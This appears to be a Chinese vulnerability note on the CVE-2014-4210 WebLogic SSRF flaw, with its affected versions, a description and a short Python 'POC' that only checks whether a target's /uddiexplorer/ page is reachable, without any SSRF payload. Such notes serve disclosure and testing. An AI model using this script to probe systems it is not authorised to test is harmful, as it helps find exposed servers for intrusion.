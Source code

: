 # CVE-2014-4210 Weblogic SSRF #
## 受影响版本 ##
OracleFusionMiddleware 10.0.2.0、10.3.6.0
## 平台 ##
windwos、linux等多个平台
## 测试系统 ##
ubuntu
## 类型 ##
远程
## 描述 ##
OracleWebLogicServer是美国甲骨文（Oracle）公司的一款适用于云环境和传统环境的应用服务器，它提供了一个现代轻型开发平台，支持应用从开发到生产的整个生命周期管理，并简化了应用的部署和管理。OracleFusionMiddleware10.0.2.0和10.3.6.0版本的OracleWebLogicServer组件中的WLS-WebServices子组件存在安全漏洞。远程攻击者可利用该漏洞读取数据，影响数据的保密性。
## POC ##
<pre class="prettyprit lang-javascript">
import logging
import sys
import requests

logging.basicConfig(filename='Weblogic.log',
                    format='%(asctime)s %(message)s',
                    filemode="w", level=logging.INFO)

headers = {'user-agent': 'ceshi/0.0.1'}

def islive(ur,port):
    url='http://' + str(ur)+':'+str(port)+'/uddiexplorer/'
    r = requests.get(url, headers=headers)
    return r.status_code

def run(url,port):
    if islive(url,port)==200:
        u='http://' + str(url)+':'+str(port)+'/uddiexplorer/'
        logging.info('[+]The target Weblogic UDDI module is exposed! The path is: {} Please verify the SSRF vulnerability!'.format(u))
        print('[+]The target Weblogic UDDI module is exposed!\n[+]The path is: {}\n[+]Please verify the SSRF vulnerability!'.format(u))
    else:
        logging.info("[-]The target Weblogic UDDI module default path does not exist!")
        print("[-]The target Weblogic UDDI module default path does not exist!")

if __name__=="__main__":
    url = sys.argv[1]
    port = int(sys.argv[2])
    run(url,port)
</pre>